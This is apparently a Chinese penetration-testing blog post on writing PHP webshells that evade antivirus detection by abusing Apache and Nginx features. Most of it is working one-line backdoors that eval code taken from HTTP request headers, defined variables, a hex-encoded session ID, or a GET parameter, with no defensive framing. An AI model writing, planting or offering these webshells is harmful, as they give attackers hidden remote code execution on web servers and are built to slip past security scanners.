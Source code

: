 ```yaml
---

title: "PHP利用Apache、Nginx的特性实现免杀Webshell"
date: 2019-01-25T21:20:47+08:00
lastmod: 2019-01-25T21:20:47+08:00
draft: false
tags: ['apache','nginx','shell','bypass']
categories: ['渗透测试']
comment: true
---
```


`get_defined_vars()`、`getallheaders()`是两个特性函数，我们可以通过这两个函数来构造我们的webshell。
前几天看到的，一直忘记写，填坑。
<!--more-->

|  环境  |         函数         |               用法               |
| :----: | :------------------: | :------------------------------: |
| nginx  | `get_defined_vars()` | 返回由所有已定义变量所组成的数组 |
| apache |  `getallheaders()`   |     获取全部 HTTP 请求头信息     |

## apache环境

```php
<?php
eval(next(getallheaders())); 
?>
```

![](https://y4er.com/img/uploads/20190509161475.jpg)

## apache和nginx环境通用

```php
<?php
eval(implode(reset(get_defined_vars())));
?>
```

![](https://y4er.com/img/uploads/20190509164784.jpg)
另外一种通过执行伪造的sessionid值，进行任意代码执行。

```php
<?php
eval(hex2bin(session_id(session_start())));
?>
```

![](https://y4er.com/img/uploads/20190509166713.jpg)

`706870696e666f28293b`这个是`phpinfo();`的hex编码。

## 给shell加密码

```php
<?php eval(get_defined_vars()['_GET']['cmd']);?>
```

